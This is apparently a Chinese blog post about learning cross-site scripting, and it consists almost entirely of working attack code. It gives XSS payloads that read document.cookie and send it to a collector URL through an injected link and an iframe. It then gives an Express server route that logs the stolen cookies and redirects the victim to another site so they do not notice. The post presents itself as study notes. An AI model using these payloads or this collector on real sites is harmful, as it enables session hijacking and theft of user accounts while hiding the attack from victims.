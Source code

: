 ```yaml
---
title: "理解学习跨站脚本攻击原理"
date: "2018-07-12"
categories: 
  - "网络基础"
---
```


### XSS

#### 针对 markdown textarea 等 文本编辑器

```javascript
<script>
(function() { alert(document.cookie)})()
</script>
```

#### 针对 图片src 或者事有超链接的做法

```javascript
// 点击打开的图片, 会触发脚本
<script>
var img = document.createElement('img');
img.src = 'http://www.private-blog.com/wp-content/uploads/2017/11/fa37d627538d082e52b4351f1e6bb7a6.jpg';
var a = document.createElement('a');
a.href =  'http://localhost:8888/db/insert?data=' + document.cookie;
a.append(img);
document.body.append(a);
</script>
```

#### 针对 iframe 的src属性 进行获取数据

```javascript
<script>
var iframe = document.createElement('iframe');
iframe.src = 'http://localhost:8888/db/insert?data=' + document.cookie;
document.body.append(iframe);
</script>
```

#### 对应的服务器端写法

```javascript
const express = require('express');
const router = express.Router();
/**
 * 获取请求的数据
 * x-www-form-urlencoded
 */
router.get('/db/insert/', (req, res) => {
    // 获取传入的数据
    let params = req.query;
    console.log(params);
     // 将这次的请求重定向 到 正常的请求URL, 避免使用者察觉
    res.redirect('http://www.baidu.com');
});
module.exports = router;
```

###### 学习中持续分享..........
